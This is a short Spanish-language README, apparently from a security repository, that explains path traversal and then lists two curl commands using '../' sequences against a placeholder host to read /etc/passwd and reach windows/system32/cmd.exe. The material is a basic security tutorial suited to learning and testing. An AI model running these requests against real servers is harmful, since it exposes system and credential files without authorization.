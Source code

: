 ## directoriotrasversal
##
Path Traversal (o Directory Traversal) es una vulnerabilidad web que permite a un atacante acceder a archivos y directorios fuera del directorio raíz del servidor web.

se manipula parámetros de la URL o inputs que contienen rutas de archivos (como ../../) para moverse por las carpertas del servidor.

Si el servidor no valida correctamente las entradas, puede exponer archivos sensibles como:

Configuraciones (/etc/passwd en Linux).
#
## ejemplos simples para explotar la vulnerabilidade de directorio trasversal o path traversal:

curl --path-as-is -k -v http://ip:80/../../../../../etc/passwd

<img style="float:left" alt="Path traversal simple" src="https://github.com/hackingyseguridad/directoriotraversal/blob/master/pathtraversal.png">

curl --path-as-is -k -v http://ip:80/../../../../../../windows/system32/cmd.exe



## http://www.hackingyseguridad.com

Codigos de respuesta HTTP https://www.w3.org/Protocols/rfc2616/rfc2616-sec10.html
